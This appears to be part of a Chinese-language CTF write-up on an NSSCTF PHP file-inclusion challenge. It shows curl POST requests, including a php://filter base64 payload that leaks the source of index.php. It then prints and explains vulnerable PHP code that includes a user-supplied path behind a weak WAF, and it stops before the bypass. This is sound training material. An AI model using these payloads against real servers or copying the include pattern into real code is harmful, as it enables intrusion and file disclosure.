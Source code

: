 尝试直接在终端看能不能带出来
```bash
curl -X POST -d "flag=/var/www/html/flag.php" http://node4.anna.nssctf.cn:28809/
```

![](./imgs/20250122集训_被waf挡了.png)

发现被waf挡住了，那就尝试用php的伪协议绕过，md，试了好多发现都绕不过去，同时刚刚打开靶机的页面中的代码显示不全，里面有没有可能有一些过滤规则，去试试能不能带出来index.php

```bash
curl -X POST -d "flag=php://filter/convert.base64-encode/resource=index.php" http://node4.anna.nssctf.cn:28809/
```

得到base64编码，解码后得到全部代码：

```php
<?php

$path = $_POST["flag"];

if (strlen(file_get_contents('php://input')) < 800 && preg_match('/flag/', $path)) {
    echo 'nssctf waf!';
} else {
    @include($path);
}
?>
```

##### 代码解释

`$path = $_POST["flag"];`

- 从HTTP POST请求中获取名为`flag`的参数值，并将其赋值给变量`$path`。

`if (strlen(file_get_contents('php://input')) < 800 && preg_match('/flag/', $path)) {     echo 'nssctf waf!'; }`

1. **`file_get_contents('php://input')`**:
    - 读取原始的HTTP请求体内容（即POST请求的原始数据）。
2. **`strlen()`**:
    - 判断请求体的长度是否小于800字节。
3. **`preg_match('/flag/', $path)`**:
    - 检查变量`$path`中是否包含字符串`flag`（大小写敏感）。
4. **条件判断**:
    - 如果请求体长度小于800字节**且**`$path`中包含字符串`flag`，则输出`nssctf waf!`（可能是某种WAF检测信息），程序不再执行后续代码。

